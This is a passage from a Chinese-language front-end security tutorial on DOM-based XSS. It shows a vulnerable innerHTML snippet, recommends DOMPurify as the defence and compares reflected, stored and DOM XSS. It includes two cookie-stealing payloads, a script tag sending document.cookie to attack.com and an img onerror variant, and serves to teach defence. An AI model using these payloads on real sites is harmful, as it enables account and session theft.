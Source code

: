 ### 攻击案例

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```
<input id="input" type="text" /><button onclick="container.innerHTML = input.value">点击</button><p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的安全规范：

> 不执行由 innerHTML 插入的 script 标签。

但是这就足够安全了吗？非也，请看下面的输入：

```
<img src="x" onerror="fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)">
```

恶意脚本依然在 onerror 回调中被触发了！

### 防御方案

这里推荐使用 DOMPurify 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

## 总结

反射型 XSS 攻击的手段就是诱导用户点击，这种攻击是一次性的，用户点击就中招，不点就没事，危害性不如存储型的大，但是小白用户很容易被盗号。

存储型 XSS 攻击范围广，受害面积大，且不容易及时发现和排查，一定要多加小心，对于用户输入的任何内容都不要完全信任，对于动态渲染的文本一定要进行转义。

DOM 型 XSS 攻击随着单页面应用普及和流行愈发常见，因为在单页面应用中 JS 经常操作 DOM，而 DOM 型 XSS 攻击就是利用了浏览器解析机制，因此很容易触发 DOM 型 XSS 攻击。不过好在大部分前端框架，例如 Vue、Angular 都内置 DOM 型 XSS 攻击的防御机制。
